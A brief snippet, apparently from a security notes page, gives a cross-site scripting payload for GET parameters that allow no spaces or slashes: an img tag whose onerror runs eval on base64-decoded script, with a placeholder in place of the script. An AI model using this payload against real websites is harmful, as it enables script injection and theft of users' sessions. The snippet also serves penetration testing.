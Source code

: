 # Arbitrary XSS in a GET parameter where no spaces or /'s were allowed
```
<img+src=x+onerror=eval(atob('BASE64ENCODED'))>
```
